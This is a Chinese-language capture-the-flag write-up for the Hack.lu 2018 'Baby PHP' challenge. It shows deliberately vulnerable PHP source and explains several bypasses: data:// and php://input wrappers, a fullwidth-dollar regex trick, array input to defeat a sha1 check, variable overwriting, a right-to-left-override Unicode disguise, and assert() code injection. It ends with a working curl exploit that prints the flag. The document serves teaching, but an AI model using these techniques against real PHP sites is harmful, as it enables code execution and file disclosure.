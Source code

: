 ```yaml
---
title: Hack.lu CTF 2018 Baby PHP
date: 2018-10-22 21:44:52
category: writeup
---
```


# Baby PHP

环境：https://arcade.fluxfingers.net:1819/ 

```php
<?php

require_once('flag.php');
error_reporting(0);


if(!isset($_GET['msg'])){
    highlight_file(__FILE__);
    die();
}

@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}

echo "Hello Hacker! Have a look around.\n";

@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}

if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){ 
            @$cc = $_GET['cc'];
        }
    }
}

list($k1,$k2) = [$k2, $k1];

if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}

$‮b = "2";$a="‮b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}

// plz die now
assert_options(ASSERT_BAIL, 1);
assert("$bb == $cc");

echo "Good Job ;)";
// TODO
// echo $flag;  
```

用 `php -S 127.0.0.1:8080` 起一个本地服务用于调试。

13~15行可通过PHP wrapper 绕过。

```bash
curl "https://arcade.fluxfingers.net:1819?msg=php://input" -d "Hello Challenge!"
or
curl "https://arcade.fluxfingers.net:1819?msg=data://text/plain,Hello%20Challenge!"
```

24~26行传入key1=1337即可，$k1类型为string。

29行的美元符是个宽字节字符，并不是ASCII为36的字符。

```javascript
>encodeURI("＄")
<"%EF%BC%84"
```

```php
php > $e=str_repeat("0",42-3-4)."1337 ";
php > echo strlen($e);
42
php > echo $e;
000000000000000000000000000000000001337＄
```

38行可以通过传入数组绕过。39行有变量覆盖。

44行是个障眼法，在第一个美元符后有个Unicode 字符(`U+202e`)，用以左右反转，详见 [rtlo-trick](https://rawsec.ml/en/2-less-known-tricks-spoofing-extensions/#rtlo-trick)。十六进制看起来实际上是这样：

```bash
000002f0: 24e2 80ae 6220 3d20 2232 223b 2461 3d22  $...b = "2";$a="
00000300: e280 ae62 223b 2f2f 3b31 3d62 0d0a 0d0a  ...b";//;1=b....
```

就是说，第44行是 `$\u{202E}b = "2";$a="\u{202E}b";//;1=b` ，但经过Unicode字符作用后显示出来的是`$b=1;//;"b"=a$;"2" = b` 。推荐一个辅助工具：https://r12a.github.io/app-conversion/ 。

则$$a的值为2，传入k1=2即可。

51行设置在断言失败时中止执行。

52行可以执行PHP代码。

```bash
λ  curl -sg "https://arcade.fluxfingers.net:1819/?msg=data://text/plain,Hello%20Challenge!&key1=1337&key2=000000000000000000000000000000000001337%EF%BC%84&cc[]=&k1=2&bb=highlight_file(%22flag.php%22);//" | grep -o 'flag{.*}'
flag{7c217708c5293a3264bb136ef1fadd6e}
```

